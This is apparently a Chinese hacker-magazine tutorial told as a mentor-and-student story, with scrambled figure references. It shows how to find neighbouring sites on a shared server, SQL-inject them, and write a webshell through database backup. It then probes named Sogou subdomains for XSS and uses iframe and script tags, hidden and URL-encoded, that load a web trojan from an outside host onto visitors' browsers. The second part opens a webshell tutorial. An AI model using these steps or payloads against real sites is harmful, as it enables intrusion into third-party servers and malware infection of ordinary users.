

图13

打开工具，在域名栏输入我们要查询的域名地址，然后点击“>>”，工具会自动将域名转换为 IP 地址。因为在查询 whois 的时候，实质上是使用 IP 地址来查询的。点击“查询”按钮就可以在左侧列表中显示当前服务器上绑定的域名。我们以黑客 X 档案的服务器为例（图14），可以看到服务器上绑定了不少域名，可以通过右侧的“网站批量检测”对这些站点进行更全面的“体检”。

从中选择几个地址放到 Domain3.5 里进行注入检测，一会儿就检测出好几个存在注入漏洞的网站（图18）。



图14


图17

不过有时候，Domain3.5 也会查询不出来，比如今天我给大家选择的这个目标网站（图15）。



图15



图18

随便挑选一个，双击注入点链接就可以进入 SQL 注入界面，点击“开始检测”，工具就会自动进行注入分析了（图19）。原来是 MSSQL 数据库，这是个 DB 权限呢，利用上期介绍的数据库备份的方法就可以得到这个网站的 WEBSHELL 了。同时我也在想，能不能直接备份到之前介绍过的目录里？权限应该差不多了。通过啊D的列目录功能，一会儿就把目标网站的绝对路径给找到了（图20）。


图16

工具提示“该 IP 地址没有绑定任何国际域名”，真的没有绑定吗？我们再来检测一下，通过 whois 网站进行查询，打开“http://www.myipneighbors.com/”（图16）。输入网站的域名或者对应的 IP 地址都可以，点击确定进行查询，这样就可以看到绑定在服务器上的好多域名了吧（图17）。


图19





接下来直接使用数据库备份工具往目标网站写入 WEBSHELL（图21），最后再使用客户端进行连接即可（图22）。

其实也并非一定要拿下主机，有些主机在设置虚拟主机目录时设置得不严格，在一个虚拟主机目录下是可以跳转到其它虚拟主机目录下的。还有一种旁注方法，就是入侵目标网站所在服务器旁边一台服务器，也就是将那台服务器的邻居拿下，然后进行嗅探或者入侵等再拿下目标主机。

#### 三、跨站（XSS）的艺术

何谓跨站？XSS 又叫 CSS（Cross Site Script），也就是跨站脚本攻击。它指的是恶意攻击者在 Web 页面里插入恶意的 HTML 代码，当用户浏览该页时，嵌入 Web 里的 HTML 代码就会被执行，从而达到特殊目的。XSS 属于被动式的攻击，因为其隐蔽且不好利用，所以许多人常忽略它的危害性。

XSS 攻击分为两类：

- 第一类是来自内部的攻击，主要指利用程序自身的漏洞构造跨站语句；
- 另一类则是来自外部的攻击，指自己构造 XSS 跨站漏洞网页或寻找非目标主机以外的有跨站漏洞的网页，并结合社会工程学等方式诱导目标管理员打开。

如何去寻找 XSS 漏洞呢？搜索引擎是 XSS 漏洞发生的一个重要地方，文中举例提到搜狗多个分站仍存在可测试的注入点。

我们主要检测网站是否对“<”“>”“'”“\"”等字符做了过滤，还有就是要注意标签的闭合问题。一般测试 XSS 的代码为：

```html
<script>alert('casper')</script>
```

这条语句的意思就是弹出一个内容为“casper”的提示框，如果在搜索这条语句的时候能弹出这样一个提示框，就表示它存在 XSS 漏洞。分别在那三个搜狗分站的搜索栏中输入上述的测试语句并回车，如图23、图24、图25。




可以看到这三个页面都弹出了那个提示框，表示它们都存在 XSS 漏洞。那么要如何利用呢？这就需要用到页面挂马的知识了。既然测试语句都执行了，那么包含一个页面或者调用一个 JS 文件也是可以的。

```html
<iframe src=http://54abu.cn/MM.htm></iframe>
```中“http://54abu.cn/MM.htm”就是网页木马的地址（图26）。执行后会出现一个小框，小框里面就是 MM.htm 的内容了，如果不想显示这个小框的话，可以将代码改为“`<iframe src=http://54abu.cn/MM.htm width=0 height=0></iframe>`”就可以了（图27）。

（图30）。把加密后的代码再和前面的 XSS 漏洞相结合，例如“http://news.sogou.com/news?query=%3Ciframe%20src%3Dhttp%3A//54abu.cn/MM.htm%3F%3C/iframe%3E”，你还能认出它是什么地址吗？隐蔽性加强了吧！










还有一种就是远程调用一个 JS 文件，这种方法既简单又省事。其使用的代码为“`<script src="http://54abu.cn/MM.js"></script>`”，其中“http://54abu.cn/MM.js”就是我调用的 JS 文件。大家可以看到和前面检测用的代码差不多吧，都使用了 JavaScript 标记语言。和前面那种方法一样，直接将这条代码插入进去即可（图28）。

你不会在页面上看到有任何的异样，非常隐蔽。那么这个 JS 里该写些什么呢？又该怎么玩呢？我给大家找到了一个用来将 JS 代码转换成 HTML 的页面，生成的 JS 在调用的时候可以像被包含一个 HTML 一样。打开“http://www.hao123.com/haoserver/jstohtm.htm”，将想转换的代码输入到上边，下边就会自动转换成 JS 格式（图29），然后再将下边的代码保存至 JS 为后缀的文件即可。

当然为了隐藏挂马所用的代码，还可以将它们进行再加密以提高迷惑性。打开“http://www.hao123.com/haoserver/htmeng.htm”，将需要加密的代码粘贴到下面“未加密源码区”，按“加密”按钮后，就会在“已加密源码区”生成加密的代码了。

> 漫长的一课终于讲完了，还没等阿布开口，燕MM的 QQ 头像突然变成了灰色。阿布很是奇怪，马上掏出了手机！

“喂？你小子下线了呢？难道网吧集体停电不成？”

“哇……布哥！你也太强了吧，怎么什么也知道啊！我们家附近就这一个破网吧，还停电了。哎！真是命苦！”

“不是吧！我这瞎猫碰上死耗子了！既然这样你就赶紧回家吧，外面也挺冷的！快过年了，回家帮爸妈收拾收拾东西！”

“再见了，布哥！快过年了，祝您老人家：身体健康，福如东海，寿比南山！”

“………………” 已晕倒。

（文章中涉及到的工具 ASP+PHP 两用 Shell、D_SQ_Tools、Domain3.5、HDSI3.0、Goldsun 干净拓宽版、备份数据库利用工具等已经收录在光盘中）


## 菜鸟师徒行

## WebShell 大揭秘

周玉杰（阿布）

“开学了，又得一个人独守这寂静的月夜，燕MM要考试，我只能默默地给她打气了。”晚饭后，阿布一个人自言自语地嘀咕着。饭后一个人在冷清的街道上，看着情侣们都拥抱在了一起，心里总是感觉很沉闷很沉闷，因为自己的另一半还沉浸在学习中。

“老公……我鼻子不通气了，好难受哦！”一个女人对她的男人说。

阿布正好路过听到了他们的对话，心想着：该对燕MM说的关心话都说了，还有什么落下的呢？如果再说她会不会烦呢？此时心里头真的是很不好受啊，不知道该如何关心（傻子都看得出来，阿布是恋爱了）。

阿布一直走着，路过一个卖水果的小摊子，他回过头看着红彤彤的苹果，想起了一句话，那就是——补充维他命对身体好。于是阿布买了几个苹果送到了燕MM宿舍的门口，敲了下门就连忙跑了起来，等燕MM拿起来并且看到了自己写的纸条时，他才安心地走了。看着她慢慢地笑了，阿布终于开心了。

可让阿布没有想到的是，他到了宿舍，伙伴们告诉他说燕MM给他送东西来了。阿布急忙跑到自己的床上打开了燕MM送他的礼物，打开一看原来是一盒子梨，并且纸条上写着：布布，复QQ。

阿布连忙从床上跳了下去，打开QQ，看到的一个红色大字就是：师傅，给你送的梨子是去火的，对您老人的身体好^_^。

阿布差点疯了，原来这小丫头已经算计好了。心想着：好吧，今天就来教教你 WebShell 的使用。于是二人又开始了紧张的对话中……

WebShell，一个耳熟能详的字眼，经常看到攻防文章中对它的提及，也经常在黑客网站上发现它的踪迹，小菜们估计要开始抓耳挠腮了，WebShell 究竟是什么呢？为了让大家不至于把头发拔穿，我特来给大家讲讲 WebShell 的故事，让我们共同揭开 WebShell 那神秘的面纱。

### WebShell 大揭秘

